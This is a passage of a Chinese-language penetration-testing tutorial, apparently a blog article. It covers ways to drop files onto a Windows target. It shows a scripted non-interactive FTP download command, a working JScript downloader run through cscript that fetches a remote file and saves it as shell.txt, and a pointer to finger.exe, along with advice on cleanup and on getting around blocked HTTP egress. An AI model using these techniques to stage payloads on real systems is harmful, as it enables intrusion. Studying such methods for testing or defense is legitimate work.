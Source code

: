 get   
ftp服务器中要落地的文件名  
  
Bye  
  
//我们要先落地这个文件，这些是FTP指令，幸好这个内容还是比较简单的！使用的时候记得删掉这些注释  
  
例如：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrMHmk4eC9k9WL0fVBFH6pBicobibcPP2iciaCgyOYac6qnMCA4XHJF9HBKA/640?wx_fmt=png&from=appmsg "")  
  
然后运行如下命令：  
  
ftp -n -s:test.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrY95yJjEgDo3pXicspvk7SmKtOHEDHJ0e9Whd0WfWx6orUneNStwsRPw/640?wx_fmt=png&from=appmsg "")  
  
这样就可以在非交互式的环境中利用ftp去落地文件，也算是有应用空间吧，万一目标不允许HTTP出网，但FTP可以呢。  
  
另外这里槽点巨多，网上有些教你用这玩意落地文件的教程，里面给出的FTP命令是有问题的，运行那玩意会直接报错，根本没法用，害我捣鼓了几分钟FTP指令用法。**然后落地完之后记得删掉test.txt文件，然后赶紧关掉你的FTP服务器，避免被大黑阔爆菊。**  
  
这是Windows自带的FTP，可以直接用的，网上的一些文章里还提到一个Tftp，不过似乎不是默认就有的，我也不确定这玩意是不是广泛存在，这里就不写了。  
  
  
  
**23.通过js落地文件**  
  
  
Windows自带cscript可以执行js脚本，所以我们可以先落地一个js下载器，内容如下：  
  
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");  
  
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);  
  
WinHttpReq.Send();  
  
BinStream = new ActiveXObject("ADODB.Stream");  
  
BinStream.Type = 1;  
  
BinStream.Open();  
  
BinStream.Write(WinHttpReq.ResponseBody);  
  
BinStream.SaveToFile("  
shell.txt");  
  
  
保存为down.js  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrDrmvMYsZxg1E0kZh4o0ARGhkhHmNIicaOGQpENDq52UMic9nyrvib1RKg/640?wx_fmt=png&from=appmsg "")  
  
这个思路可以拓展，可以自己捣鼓一下vbs或者bat版本的文件下载器，然后先落地文件下载器，然后再用文件下载器下载大文件  
  
  
  
**24.使用finger.exe落地文件**  
  
  
  
  
略麻烦，需要搞一个专门的darkfinger端，详情可移步：  
  
https://油管/watch?v=cfbwS6zH7ks  
  